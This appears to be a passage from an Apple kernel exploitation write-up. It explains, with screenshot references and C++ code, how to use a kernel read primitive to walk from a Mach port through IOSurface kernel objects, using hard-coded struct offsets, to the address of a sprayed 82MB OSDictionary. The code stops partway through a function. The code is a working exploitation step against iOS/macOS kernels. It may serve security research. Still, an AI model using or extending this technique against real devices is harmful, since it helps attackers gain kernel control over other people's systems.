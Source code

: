 How can we find address where data loaded via IOSurface resides?

First, locate proc address for our process and then walk struct fields — by doing so we can reach IOSurfaceRootClient object address.

![Screenshot 2025-09-10 at 12.56.12 AM.png](pics/Screenshot_2025-09-10_at_12.56.12_AM.png)

Likewise, by walking fields of `IOSurfaceRootUserClient` object in turn, we can reach loaded 82MB OSDictionary object.

Because `IOSurface.kext` is not open source - a bit of reversing technique was required.

Below is picture showing that we reached IOSurface’s properties(=UserspaceValueDictionary) field.

![image.png](pics/image%202.png)

Implemented in code, it looks like this.

```cpp
uint64_t port_to_kobject(mach_port_t port)
{
    uint64_t ipc_port = find_port(port);
    uint64_t kobject = kread64(ipc_port + 0x68);    // 0x68 = p/x offsetof(ipc_port, kdata.kobject)
    return kobject;
} 

uint64_t userdict_from_IOSurface(void) {
    uint64_t surfRoot = port_to_kobject(IOSurfaceRootUserClient);
    // INFO("surfRoot: 0x%llx\n", surfRoot);

    // p/x offsetof(IOSurfaceRootUserClient, IOSurfaceClientArray) = 0x118;
    uint64_t surfClients = kread64(surfRoot + 0x118);
    // INFO("surfClients: 0x%llx\n", surfClients);

    uint64_t surfClient = kread64(surfClients + sizeof(uint64_t) * IOSurface_id);
    // INFO("surfClient: 0x%llx\n", surfClient);

    // p/x offsetof(IOSurfaceClient, IOSurface) = 0x40;
    uint64_t surface = kread64(surfClient + 0x40);
    // INFO("surface: 0x%llx\n", surface);

    // p/x offsetof(IOSurface, UserspaceValueDictionary) = 0xe8
    uint64_t userspaceValueDicts = kread64(surface + 0xe8);

    if(userspaceValueDicts != 0) return userspaceValueDicts;
```
